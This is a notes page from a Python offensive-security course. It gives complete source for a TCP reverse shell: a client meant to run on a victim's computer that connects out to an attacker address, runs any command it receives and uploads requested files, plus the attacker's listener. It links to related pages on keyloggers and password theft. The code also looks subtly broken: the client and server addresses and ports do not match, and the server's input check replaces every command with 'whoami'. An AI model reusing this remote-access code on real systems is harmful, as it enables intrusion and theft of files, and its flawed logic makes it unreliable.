 ```yaml
---
title: Including cd command into TCP reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Including cd command into TCP reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket
import subprocess
import os

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
        f.close()
    else:
        s.send('Unable to find out the file'.encode())

def connect():
    s = socket.socket()
    s.connect(('192.168.0.152', 8080))
    while True:
        command = s.recv(1024)
        if 'terminate' in command.decode():
            s.close()
            break
        elif 'grab' in command.decode():
            grab, path = command.decode().split('*')
            try:
                transfer(s, path)
            except Exception as e:
                s.send(str(e).encode())
                pass
        elif 'cd' in command.decode():
            code, directory = command.decode().split('*') # the syntax here is gonna be cd*directory
            try:
                os.chdir(directory) # changing the directory 
                s.send(('[+] CWD is ' + os.getcwd()).encode()) # we send back a string mentioning the new CWD Current working directory
            except Exception as e:
                s.send(('[-]  ' + str(e)).encode())
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send(CMD.stdout.read())
            s.send(CMD.stderr.read())

def main():
    connect()

main()


        
```

### Server side

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket

def connect():

    s = socket.socket()
    s.bind(("10.0.2.15", 1234))
    s.listen(1) # define the backlog size for the Queue, I made it 1 as we are expecting a single connection from a single
    conn, addr = s.accept() # accept() function will retuen the connection object ID (conn) and will return the client(target) IP address and source port in a tuple format (IP,port)
    print ('[+] We got a connection from', addr)

    while True:

        command = input("Shell> ")

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate'.encode())
            conn.close()
            break
        elif '' in command: # If the user just click enter, we will send a whoami command
            conn.send('whoami'.encode()) 
            print( conn.recv(1024).decode()) 
        else:
            conn.send(command.encode()) # Otherwise we will send the command to the target
            print( conn.recv(1024).decode()) # print the result that we got back

def main():
    connect()
main()

```


## Using pyinstaller

See [pyinstaller](../pyinstaller.md).